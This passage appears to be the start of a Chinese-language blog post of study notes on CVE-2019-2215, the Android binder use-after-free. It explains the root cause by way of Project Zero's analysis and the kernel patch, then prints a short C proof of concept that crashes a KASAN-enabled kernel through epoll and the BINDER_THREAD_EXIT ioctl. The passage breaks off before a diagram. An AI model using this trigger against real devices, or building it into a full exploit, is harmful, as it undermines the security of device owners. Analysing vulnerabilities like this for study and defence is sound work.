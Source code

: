 ```yaml
---
title: "CVE-2019-2215 Study Notes"
date: 2020-06-23T00:42:00+08:00
categories: ["Linux", "CVE", "Exploit", "Android"]
tags: ["Android", "Linux", "CVE", "Exploit"]
---
```


最近有了点时间，好好看了下CVE-2019-2215的漏洞利用细节，这里记录下来，一方面留着以后再看方便，一方面把自己的理解写出来也是学习的一种方式。

这里问我写的内容可以看成是对Google Project Zero的文章的翻译加上一些个人想法，不过还是推荐看看原文，链接在[这里](https://googleprojectzero.blogspot.com/2019/11/bad-binder-android-in-wild-exploit.html), 因为看的其他的多多少少都有点模糊的地方,没有P0的文章说的详细，这也是我想自己写一个分析的原因。

## 1. Root Cause

通过阅读对应的[issue page](https://bugs.chromium.org/p/project-zero/issues/detail?id=1942)和
根据对应的内核[Patch](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/commit/drivers/android/binder.c?h=linux-4.14.y&id=7a3cee43e935b9d526ad07f20bf005ba7e74d05b)\(需要注意commit里的内容不太准确\),
造成CVE-2019-2215的根本原因在于binder driver内部在收到```BINDER_THREAD_EXIT```的ioctl后，负责释放对应binder_thread的函数在free binder_thread前没有检查当前binder_thread 是否在epoll中存在引用，从而导致在epoll中存在引用的binder_thread在被释放后依然在epoll中存在一个悬挂指针。当后面epoll因为一些原因尝试删除该已经被释放的binder_thread内部指向的一个waitqueue时出现未定义行为，如Crash\(*当被free的binder_thread所在的内存已经被分配给其他对象复写破坏时*\)

利用下面的poc可以在开了KASAN的对应kernel上触发crash

```cpp
#include <fcntl.h>
#include <sys/epoll.h>
#include <sys/ioctl.h>
#include <unistd.h>

#define BINDER_THREAD_EXIT 0x40046208ul

int main()
{
        int fd, epfd;
        struct epoll_event event = { .events = EPOLLIN };

        fd = open("/dev/binder0", O_RDONLY);
        epfd = epoll_create(1000);
        epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event);
        ioctl(fd, BINDER_THREAD_EXIT, NULL);
}
```

整个触发时间过程如下图：
